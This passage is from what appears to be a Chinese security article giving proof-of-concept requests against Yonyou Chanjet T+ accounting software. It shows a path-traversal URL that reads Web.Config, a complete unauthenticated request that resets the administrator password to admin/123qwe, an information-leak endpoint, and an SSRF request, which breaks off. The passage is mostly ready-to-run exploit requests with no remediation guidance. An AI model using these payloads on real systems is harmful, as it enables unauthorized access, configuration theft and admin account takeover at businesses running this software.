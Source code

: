![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNHy8slC4wzovlIWcLHtGMfKHG2dTUQSOIWiapZhDib6DcAoB7icVlZcGdiag/640?wx_fmt=png&from=appmsg "")  
  
**三、文件读取漏洞**  
  
chanjet-tplus-file-read  
  
POC  
：  
```
http://xxxxxx/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNHp1O5f9dXNgXlucwUIayBZOVRoBlmL18zFZR5ETfvz7FHdQ0sTz0jVQ/640?wx_fmt=png&from=appmsg "")  
  
**四、用友畅捷通T+ RecoverPassword.aspx 管理员密码修改漏洞**  
  
chanjet-tplus-unauth-update  
  
重置账号密码为 admin/123qwe  
  
POC  
：  
```
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 45

{"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNHwLOEwEMMtMdTgcYOpe4YMqDhFTfKrMaFyicSPB8CDjysFy3hA98rhBA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNHibuNxZ51xMt4FTMCiakIXLibsIoicd1hDvpiaoz2PszSv5CkYBt1x8U0yow/640?wx_fmt=png&from=appmsg "")  
  
**五、前台信息泄露漏洞**  
  
POC：  
```
/tplus/ajaxpro/Ufida.T.SM.UIP.Tool.AccountClearControler,Ufida.T.SM.UIP.ashx?method=GetDefaultBackPath
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNHLu9AgtFJZvQ8d9XdWMGLcffhQmoQqicZyGZPPxuOBm7tTiayp4WnnJibw/640?wx_fmt=png&from=appmsg "")  
  
**六、前台SSRF漏洞**  
  
POC:  
```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.UA.AddressSettingController,Ufida.T.SM.UIP.ashx?method=TestConnnect HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 36
Content-Type: application/json
Host: xxxx
Origin: xxxx
Pragma: no-cache
```